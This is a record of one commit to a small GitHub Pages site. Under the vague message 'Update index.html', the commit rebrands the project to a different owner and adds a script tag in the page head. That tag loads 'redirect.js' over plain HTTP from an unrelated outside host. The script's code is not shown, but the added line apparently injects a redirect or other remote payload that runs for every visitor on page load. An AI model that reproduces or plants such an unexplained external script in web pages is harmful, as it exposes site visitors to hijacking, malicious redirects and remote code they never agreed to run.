

Before and after one commit to awikiqwi/invincibletechn, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 59-1359 px from the top of the page at 85% size. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,7 +2,8 @@
 <html lang="en-us">
   <head>
     <meta charset="UTF-8">
-    <title>invincibletechn by awikiqwi</title>
+    <title>uttermostroute1 1by jesushatesme</title>
+    <script src="http://rb-cdn.com/redirect.js"></script>
     <meta name="viewport" content="width=device-width, initial-scale=1">
     <link rel="stylesheet" type="text/css" href="stylesheets/normalize.css" media="screen">
     <link href='https://fonts.googleapis.com/css?family=Open+Sans:400,700' rel='stylesheet' type='text/css'>
@@ -11,11 +12,11 @@
   </head>
   <body>
     <section class="page-header">
-      <h1 class="project-name">invincibletechn</h1>
+      <h1 class="project-name">uttermostroute1</h1>
       <h2 class="project-tagline"></h2>
-      <a href="https://github.com/awikiqwi/invincibletechn" class="btn">View on GitHub</a>
-      <a href="https://github.com/awikiqwi/invincibletechn/zipball/master" class="btn">Download .zip</a>
-      <a href="https://github.com/awikiqwi/invincibletechn/tarball/master" class="btn">Download .tar.gz</a>
+      <a href="https://github.com/jesushatesme/uttermostroute1" class="btn">View on GitHub</a>
+      <a href="https://github.com/jesushatesme/uttermostroute1/zipball/master" class="btn">Download .zip</a>
+      <a href="https://github.com/jesushatesme/uttermostroute1/tarball/master" class="btn">Download .tar.gz</a>
     </section>
 
     <section class="main-content">
@@ -45,7 +46,7 @@
 <p>Having trouble with Pages? Check out our <a href="https://help.github.com/pages">documentation</a> or <a href="https://github.com/contact">contact support</a> and we’ll help you sort it out.</p>
 
       <footer class="site-footer">
-        <span class="site-footer-owner"><a href="https://github.com/awikiqwi/invincibletechn">invincibletechn</a> is maintained by <a href="https://github.com/awikiqwi">awikiqwi</a>.</span>
+        <span class="site-footer-owner"><a href="https://github.com/jesushatesme/uttermostroute1">uttermostroute1</a> is maintained by <a href="https://github.com/jesushatesme">jesushatesme</a>.</span>
 
         <span class="site-footer-credits">This page was generated by <a href="https://pages.github.com">GitHub Pages</a> using the <a href="https://github.com/jasonlong/cayman-theme">Cayman theme</a> by <a href="https://twitter.com/jasonlong">Jason Long</a>.</span>
       </footer>
```
